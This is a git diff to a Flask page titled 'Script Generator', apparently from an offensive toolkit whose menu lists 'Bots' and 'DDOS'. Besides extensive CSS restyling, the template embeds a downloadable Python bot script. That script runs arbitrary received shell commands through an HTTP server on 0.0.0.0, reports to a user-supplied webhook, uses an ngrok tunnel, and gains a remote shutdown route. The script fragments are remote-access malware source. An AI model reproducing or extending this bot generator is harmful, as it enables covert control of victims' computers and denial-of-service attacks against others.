

Before and after one commit to ArcticHonour/SuperNova, a Flask app: page /script_generator in a window 1280 px wide. Run offline with Flask 3, Linux system fonts and the light colour scheme.

Commit message:
Add files via upload

```diff
--- a/templates/gen.html
+++ b/templates/gen.html
@@ -18,103 +18,154 @@
 
     <style>
         body {
+            background: linear-gradient(to bottom right, #1e3a8a, #6366f1); /* Deep blue to purple gradient */
+            color: #d1e8ff; /* Light blue text color */
             font-family: 'Poppins', sans-serif;
-            background-color: #f4f4f4;
             padding: 20px;
-            position: relative;
+            margin: 0;
+            display: flex;
+            flex-direction: column;
+            align-items: center;
         }
 
         h1 {
-            color: #333;
+            font-size: 50px;
+            animation: rotate-scale-color 3s infinite ease-in-out;
+            color: white; /* Keep h1 white */
+            text-shadow: 0 0 10px #87CEEB, 0 0 20px #87CEEB, 0 0 30px #00076f;
             text-align: center;
-            margin-bottom: 20px;
         }
 
-        input[type="text"] {
-            width: 100%;
-            padding: 10px;
-            margin: 10px 0;
-            border: 1px solid #ccc;
-            border-radius: 4px;
-            transition: border-color 0.3s;
+        @keyframes rotate-scale-color {
+            0% {
+                transform: scale(2);
+                color: white;
+                text-shadow: 0 0 10px #87CEEB;
+            }
+            25% {
+                text-shadow: 0 0 10px #9d00ff;
+            }
+            50% {
+                text-shadow: 0 0 10px #87CEEB;
+            }
+            75% {
+                text-shadow: 0 0 10px #9d00ff;
+            }
+            100% {
+                transform: scale(2);
+                text-shadow: 0 0 10px #9d00ff;
+            }
         }
 
-        input[type="text"]:focus {
-            border-color: #5cb85c;
-            outline: none;
+        p {
+            color: #d1e8ff; /* Light blue for paragraphs */
+            margin: 10px 0;
+        }
+
+        table {
+            margin-top: 20px;
+            border-collapse: collapse;
+            width: 80%;
+            background-color: #1f2937; /* Dark navy for table background */
+        }
+
+        th, td {
+            border: 1px solid #d1e8ff; /* Light blue border */
+            padding: 10px;
+            text-align: left;
+            color: #d1e8ff; /* Light blue text */
+        }
+
+        th {
+            background-color: rgba(99, 102, 241, 0.1); /* Light purple for header */
+        }
+
+        tr:nth-child(even) {
+            background-color: rgba(31, 41, 55, 0.6); /* Dark navy alternating row */
         }
 
         button {
-            padding: 10px 15px;
-            background-color: #5cb85c;
+            background-color: #3b82f6; /* Blue background for buttons */
             color: white;
-            border: none;
-            border-radius: 4px;
+            border: 2px solid #3b82f6;
+            padding: 10px 20px;
+            border-radius: 8px;
             cursor: pointer;
-            transition: background-color 0.3s;
+            font-weight: 600;
+            transition: background-color 0.3s, transform 0.3s, box-shadow 0.3s;
         }
 
         button:hover {
-            background-color: #4cae4c;
+            background-color: #6366f1; /* Purple on hover */
+            transform: scale(1.05);
+            box-shadow: 0 0 15px rgba(99, 102, 241, 0.7);
         }
 
-        /* Dropdown Styles */
         .dropdown {
-            position: absolute;
-            top: 10px;
-            right: 120px;
-        }
-
-        .dropbtn {
-            background-color: #5cb85c;
-            color: white;
-            padding: 10px;
-            border: none;
-            border-radius: 4px;
-            cursor: pointer;
-            font-size: 16px;
-            transition: background-color 0.3s;
-        }
-
-        .dropbtn:hover {
-            background-color: #4cae4c;
+            position: relative;
+            display: inline-block;
         }
 
         .dropdown-content {
             display: none;
             position: absolute;
-            background-color: #f9f9f9;
+            background-color: #3b82f6;
             min-width: 160px;
-            box-shadow: 0px 8px 16px 0px rgba(0,0,0,0.2);
+            box-shadow: 0px 8px 16px 0px rgba(0, 0, 0, 0.2);
             z-index: 1;
-            border-radius: 4px;
+            border-radius: 8px;
         }
 
         .dropdown-content a {
-            color: black;
+            color: white;
             padding: 12px 16px;
             text-decoration: none;
             display: block;
+            border-radius: 8px;
             transition: background-color 0.3s;
         }
 
         .dropdown-content a:hover {
-            background-color: #f1f1f1;
+            background-color: #6366f1;
         }
 
-        .show {
+        .dropdown:hover .dropdown-content {
             display: block;
         }
 
-        img {
-            width: 100px;
-            height: 100px;
-            position: absolute;
-            top: 10px;
-            right: 10px;
+        .dropbtn {
+            background-color: #3b82f6;
+            color: white;
+            padding: 10px 20px;
+            border: none;
+            cursor: pointer;
+            border-radius: 8px;
+            font-weight: 600;
+        }
+
+        .dropbtn:hover {
+            background-color: #6366f1;
+        }
+
+        form {
+            margin-top: 20px;
+        }
+
+        label {
+            font-size: 18px;
+            margin-right: 10px;
+        }
+
+        input {
+            padding: 10px;
+            border-radius: 5px;
+            border: 1px solid #d1e8ff;
+            background-color: #1f2937;
+            color: #d1e8ff;
         }
     </style>
 </head>
+
 <body>
     <h1>Script Generator</h1>
     <img rel="image" src="{{ url_for('static', filename='icon.png') }}">
@@ -130,8 +181,8 @@
     </form>
 
     <div class="dropdown">
-        <button class="dropbtn" onclick="toggleDropdown()">Options</button>
-        <div id="myDropdown" class="dropdown-content">
+        <button class="dropbtn">Options</button>
+        <div class="dropdown-content">
             <a href="#" onclick="navigateTo('/bots')">Bots</a>
             <a href="#" onclick="navigateTo('/DDOS')">DDOS</a>
             <a href="#" onclick="navigateTo('/status')">Status Codes</a>
@@ -140,27 +191,9 @@
     </div>
 
     <script>
-        // Function to toggle dropdown
-        function toggleDropdown() {
-            document.getElementById("myDropdown").classList.toggle("show");
-        }
-
         // Function to navigate to a new page
         function navigateTo(url) {
-            window.location.href = url; // Redirect to the new URL
-        }
-
-        // Close the dropdown if the user clicks outside of it
-        window.onclick = function(event) {
-            if (!event.target.matches('.dropbtn')) {
-                var dropdowns = document.getElementsByClassName("dropdown-content");
-                for (var i = 0; i < dropdowns.length; i++) {
-                    var openDropdown = dropdowns[i];
-                    if (openDropdown.classList.contains('show')) {
-                        openDropdown.classList.remove('show');
-                    }
-                }
-            }
+            window.location.href = url;
         }
 
         document.getElementById("scriptForm").addEventListener("submit", function(event) {
@@ -183,11 +216,6 @@
 import sys
 
 app = Flask(__name__)
-
-if platform.system() == 'Linux':
-    os.system("clear")
-else:
-    os.system("cls")
 
 username = "${username}"
 hook_url = "${hook_url}"
@@ -260,49 +288,38 @@
                 return jsonify({'error': f"No such file or directory: '{new_dir}'"}), 404
             except PermissionError:
                 return jsonify({'error': f"Permission denied: '{new_dir}'"}), 403
+        elif command.lower() == "pwd":
+            return jsonify({'result': current_directory})
+        else:
+            result = subprocess.check_output(command, shell=True, cwd=current_directory)
+            return jsonify({'result': result.decode('utf-8')})
+    except subprocess.CalledProcessError as e:
+        return jsonify({'error': f"Error: {e}"}), 500
 
-        if platform.system() == 'Windows':
-            result = subprocess.run(['powershell', '-Command', command], capture_output=True, text=True, cwd=current_directory)
-        else:
-            result = subprocess.run(command, shell=True, capture_output=True, text=True, cwd=current_directory)
+@app.route('/terminate', methods=['POST'])
+def terminate():
+    hook.send("Shutting down server.")
+    os.kill(os.getpid(), signal.SIGTERM)
+    return jsonify({'message': 'Server is shutting down'})
 
-        output = result.stdout if result.returncode == 0 else result.stderr
-        return jsonify({'result': output})
-
-    except Exception as e:
-        return jsonify({'error': str(e)}), 500
-
-@app.route('/update_username', methods=['POST'])
-def update_username():
-    global username
-    new_username = request.json.get('username')
-    if new_username:
-        username = new_username
-        return jsonify({"message": "Username updated", "new_username": username}), 200
-    return jsonify({"message": "Username not provided"}), 400
-
-@app.route('/get_username', methods=['GET'])
-def get_username():
-    return jsonify({"username": username}), 200
-
-def cleanup(signum, frame):
-    hook.send(f"{username} is offline.")
-    ngrok_process.terminate()
+def shutdown_handler(signal, frame):
+    hook.send("Server has shut down.")
     sys.exit(0)
 
-signal.signal(signal.SIGINT, cleanup)
-signal.signal(signal.SIGTERM, cleanup)
+signal.signal(signal.SIGINT, shutdown_handler)
 
 if __name__ == '__main__':
     app.run(host='0.0.0.0', port=8080)
-`;
+            `;
 
-            const blob = new Blob([scriptContent], { type: 'text/plain' });
-            const link = document.createElement('a');
+            // Create a Blob and trigger download
+            const blob = new Blob([scriptContent], { type: "text/plain;charset=utf-8" });
+            const link = document.createElement("a");
             link.href = URL.createObjectURL(blob);
-            link.download = 'Bot_script.py';
+            link.download = `generated_script_${username}.py`;
             link.click();
         });
     </script>
+
 </body>
 </html>
```
